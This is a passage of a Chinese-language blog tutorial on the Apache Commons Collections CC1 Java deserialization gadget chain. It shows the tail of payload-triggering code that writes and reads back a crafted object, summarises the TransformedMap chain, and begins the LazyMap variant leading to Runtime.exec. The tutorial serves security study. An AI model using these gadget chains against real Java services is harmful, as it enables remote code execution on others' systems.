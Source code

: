 ```java
        oos.writeObject(o);

        //反序列化触发payload
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("outCC1.bin"));
        ois.readObject();
    }}
```

![image-20230523194552097](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/202305231947089.png)

### 小结

- 先总结一下我们的利用链

```java
利用链：
InvokerTransformer#transform
    TransformedMap#checkSetValue
        AbstractInputCheckedMapDecorator#setValue
            AnnotationInvocationHandler#readObject
使用到的工具类辅助利用链：
ConstantTransformer
ChainedTransformer
HashMap
```

这里非常建议大家在跟完一整个链子之后，写一个流程图，让自己明确一下思路，这个流程图一定是要自己写。
![](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/1666866372257-2eee9db8-7ade-44b3-885c-55620ebc58f3.jpeg)
别的师傅的流程图
![](https://blog-1313934826.cos.ap-chengdu.myqcloud.com/blog-images/1667215040297-ddc72c67-ef4e-4fd6-917b-37ca36f468aa.jpeg)

## 第二条链

AnnotationInvocationHandler.readObject()->LazyMap.get()->ChainedTransformer->InvokerTransformer.transform->Runtime.exec
这条链就是ysoserial里的链，和上一条的差别不大，上条用了TransformedMap，这一条用LazyMap

### LazyMap

LazyMap和TransformedMap类似，都来自于Common-Collections库，并继承AbstractMapDecorator。

```java
//获取 LazyMap 对象
		public static Map decorate(Map map, Factory factory) {
        return new LazyMap(map, factory);
    }
```

LazyMap的漏洞触发点和TransformedMap唯一的差别是，TransformedMap是在写入元素的时候执行transform，而LazyMap是在其get方法中执行的 factory.transform。

```java
public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```
